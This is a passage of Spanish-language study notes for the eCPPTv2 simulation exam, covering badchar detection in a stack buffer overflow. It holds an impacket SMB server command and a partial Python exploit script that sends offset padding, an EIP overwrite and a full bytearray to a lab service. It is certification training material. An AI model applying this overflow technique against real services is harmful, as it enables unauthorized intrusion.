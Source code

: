 ![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 141.png)

Ahora en el directorio de trabajo estarán los archivos correspondientes al bytearray y es en el archivo de texto es donde se encuentra el bytearray que se insertará en el stack.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 142.png)

### Detección de badchars

Para enviar los datos, se creará un script en python por lo que se transferirá el bytearray a la máquina local con SMB.

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

Al ejecutar el script, se envían los datos y ahora, en el stack, se puede ver una serie de caracteres (01, 02, 03, …), esto corresponde al bytearray ingresado, sin embargo, se verificará si en esta cadena de caracteres existe algún badchar que no se esté interpretando y rompa con esta secuencia.

- Script con bytearray inicial
    
    ```bash
    #!/usr/bin/python3
    
    import socket
    import sys
    
    # Variables de entorno
    ip_address = "192.168.0.105"
    port = 9999
    offset = 524
    
    # DAtos a enviar
    before_eip = b"A"*offset
    eip = b"B"*4
    byte_array = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
    